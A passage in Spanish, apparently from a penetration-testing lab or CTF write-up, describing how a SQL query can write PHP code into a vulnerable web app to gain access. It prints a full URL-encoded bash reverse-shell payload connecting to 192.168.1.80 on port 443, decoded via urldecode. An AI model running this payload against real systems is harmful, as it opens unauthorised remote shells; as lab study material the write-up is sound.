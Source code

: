 ![phpinfo.png](phpinfo.png)

Eso significa que si en vez de esa instrucción de php, inyectamos otro payload, podríamos usar ese mecanismo para entrar al sistema mediante una reverse shell.

Cerramos y abrimos la sesión para renovar la cookie, y añadimos la siguiente query:


```sql
SELECT '<?PHP system(urldecode("bash%20-c%20%22/bin/bash%20-i%20%26%3e%20/dev/tcp/192.168.1.80/443%200%3e%261%22")); ?>'
```

Como la linea de la reverse shell está completamente urlencodeada, no será entendida a menos que la decodifiquemos con urldecode.
